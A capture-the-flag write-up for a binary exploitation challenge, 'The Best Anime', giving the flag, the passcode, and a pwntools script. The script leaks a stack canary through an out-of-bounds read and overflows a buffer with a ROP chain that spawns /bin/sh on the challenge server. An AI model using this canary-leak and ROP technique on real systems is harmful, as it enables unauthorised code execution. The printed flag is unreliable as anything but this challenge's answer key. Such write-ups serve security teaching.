

# pwn - The Best Anime - Writeup

---  

## FLAG：
`THJCC{d4rl1n9_1N_7hE_FR4nXx_15_7he-Be57}`

## Observation：
- A passcode `Darling in the FRANXX` is found.
- `darling()` has an **out-of-bounds read** vulnerability that can **leak the stack canary**.
- `main()`has a **buffer overflow** vulnerability that can trigger **arbitrary execution**.
- Use an ROP chain to execute `system("/bin/sh")`
## Step：
1. Input the passcode.
2. Input the out-of-bound index `14` and `15` to get the stack canary.
3. Setup the stack canary and construct the ROP chain.

## Exploit：  

```python
from pwn import *
from Crypto.Util.number import *
context.arch = 'amd64'
p = remote('cha-thjcc.scint.org', 10101)
#p = process('./the_best_anime')
p.sendlineafter(b'What is my favorite anime > ', b'Darling in the FRANXX')
  
p.sendlineafter(b'Select login user > ', b'14')
p.recvuntil(b'User ')
canary = p.recvuntil(b' selected', drop=True)
  
p.sendlineafter(b'Enter login passcode > ', b'15')
p.recvuntil(b'Passcode ')
canary = p.recvuntil(b' selected', drop=True) + canary
  
canary = int(canary,16)
print(f"{hex(canary) = }")
  
'''
rax = 0x3b
rdi = "/bin/sh\x00"
rsi = 0
rdx = 0
'''
  
bss = 0x4cc000               # writable address
pop_rdi = 0x0000000000494253
pop_rsi = 0x000000000041fcf5
pop_rdx = 0x000000000048a8dc # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
pop_rax = 0x0000000000434bbb
mov_rsi_rax = 0x000000433f95 # mov qword ptr [rsi], rax ; ret
syscall = 0x0000000000401364
  
payload = b'A'*56 + flat([canary, 0,
                          pop_rax, u64(b'/bin/sh\x00'),
                          pop_rsi, bss,
                          mov_rsi_rax,
                          pop_rdx, 0, 0, 0, 0, 1,
                          pop_rax, 0x3b,
                          pop_rdi, bss,
                          pop_rsi, 0,
                          syscall
                         ])
p.sendline(payload)
p.interactive()
```

